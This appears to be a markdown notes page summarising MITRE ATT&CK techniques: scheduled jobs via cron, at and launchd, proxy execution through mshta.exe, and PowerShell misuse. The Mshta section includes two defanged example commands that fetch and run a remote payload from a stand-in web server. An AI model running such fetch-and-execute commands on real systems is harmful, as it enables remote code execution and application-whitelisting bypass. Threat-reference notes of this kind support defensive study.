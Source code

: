 

------------------------------- 
## Local Job Scheduling
* [Local Job Scheduling - ATT&CK](https://attack.mitre.org/wiki/Technique/T1168)
	* On Linux and Apple systems, multiple methods are supported for creating pre-scheduled and periodic background jobs: cron, at, and launchd.3 Unlike 	Scheduled Task on Windows systems, job scheduling on Linux-based systems cannot be done remotely unless used in conjunction within an established remote session, like secure shell (SSH). 
	* **cron**
		* System-wide cron jobs are installed by modifying `/etc/crontab` file, `/etc/cron.d/` directory or other locations supported by the Cron daemon, while per-user cron jobs are installed using crontab with specifically formatted crontab files.3 This works on Mac and Linux systems.
		* Those methods allow for commands or scripts to be executed at specific, periodic intervals in the background without user interaction. An adversary may use job scheduling to execute programs at system startup or on a scheduled basis for Persistence, to conduct Execution as part of Lateral Movement, to gain root privileges, or to run a process under the context of a specific account.
	* **at**
		* The at program is another means on Linux-based systems, including Mac, to schedule a program or script job for execution at a later date and/or time, which could also be used for the same purposes.
	* **launchd**
		* Each launchd job is described by a different configuration property list (plist) file similar to Launch Daemon or Launch Agent, except there is an additional key called StartCalendarInterval with a dictionary of time values. This only works on macOS and OS X. 



------------------------------- 
## Mshta
* [Mshta - ATT&CK](https://attack.mitre.org/wiki/Technique/T1170)
	* Mshta.exe is a utility that executes Microsoft HTML Applications (HTA). HTA files have the file extension `.hta`. HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser.
	* Adversaries can use mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code34567
	* Files may be executed by mshta.exe through an inline script: `mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))`
	* They may also be executed directly from URLs: `mshta http[:]//webserver/payload[.]hta`
	* Mshta.exe can be used to bypass application whitelisting solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings.







-------------------------------
## Powershell
* [PowerShell](https://attack.mitre.org/wiki/Technique/T1086)
	* PowerShell is a powerful interactive command-line interface and scripting environment included in the Windows operating system.TechNet PowerShell Adversaries can use PowerShell to perform a number of actions, including discovery of information and execution of code. Examples include the Start-Process cmdlet which can be used to run an executable and the Invoke-Command cmdlet which runs a command locally or on a remote computer. 
	* PowerShell may also be used to download and run executables from the Internet, which can be executed from disk or in memory without touching disk. 
	* Administrator permissions are required to use PowerShell to connect to remote systems. 
	*  A number of PowerShell-based offensive testing tools are available, including Empire,Github PowerShell Empire PowerSploit,Powersploit and PSAttack.Github PSAttack
